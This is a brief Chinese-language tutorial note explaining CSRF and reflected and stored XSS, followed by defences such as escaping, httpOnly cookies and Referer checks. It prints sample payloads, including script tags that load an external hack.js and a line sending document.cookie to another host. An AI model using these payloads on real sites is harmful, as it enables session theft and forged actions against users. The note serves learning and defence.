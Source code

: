 ### 攻击xss,csrf
#### 1. csrf攻击
在其他域名下访问被攻击者之前访问域名下的接口，通过img标签的形式，向同一个服务器发送请求，从而形成攻击。    
例如：A用户访问B（域名：http://www.b.com） 网站，登录成功以后cookie信息已经获取到，B网站发送了一个请求 http://www.b.com/list/delete?id=“11” 这样会删除了id为11的信息。如果攻击者此时利用C页面(http:www.c.com)放了一个img标签，且src=‘http://www.b.com/list/delete?id=“12”’ 这样就会向后端发起删除id为12的信息，起到攻击的作用。 因为C页面的src的链接是b页面的，同一个浏览器下面，不同的窗口，向同一个域发起的请求是共享cookie的，所以此时就像是在b网站发起请求一样，也是携带cookie，服务端认为是合法的，从而把id=12的记录给删除了，起到了攻击的作用。    
或者是在c页面放置一个iframe，iframe的链接是删除链接，此时也是可以起到攻击的作用，而且iframe的这种攻击是用浏览器的请求头里的refer字段无法识别的，因为此时的refer的地址就是iframe的地址，即b页面的地址，所以此时使用refer无效。使用img标签的时候应该是可以使用refer来判断访问的网站的。    

#### 2. xss攻击（跨站脚本攻击），利用注入脚本攻击

##### （1）反射型 - url参数直接注入
①：普通：http://localhost:3000/?from=china      
②：alert尝试：http://localhost:3000/?from=<script>alert(3)</script>    
③：获取Cookie：http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>    
伪造cookie入侵： document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="    
直接在4000端口的页面输入脚本：var img = new Image(); img.src='http://localhost:4000/img?c='+document.cookie 就能获取cookie    

##### （2）存储型 - 存储到DB后读取时注入（在输入框，例如评论区输入内容）
评论：<script>alert(1)</script>     
跨站脚本注入：我来了<script src="http://localhost:4000/hack.js"></script>

**防范手段**：
+ ejs转义字符
+ 设置黑名单
+ httpOnly cookie（即cookie不能通过document.cookie的方式获取，只能浏览器请求后台时自动带在头部）
+ Referer验证：Referer指的是页面请求来源。意思是，只接受本站的请求，服务器才做响应；如果不是，就拦截。

> xss：跨站脚本攻击、诱骗用户点击恶意链接<u>盗取用户 cookie</u> 进行攻击、不需要用户进行登录、xss 除了利用 cookie 还可以篡改网页等
>
> csrf：跨站请求伪造、<u>无法获取用户的 cookie</u> 而是<u>直接冒充用户、需要用户登录后进行操作</u>

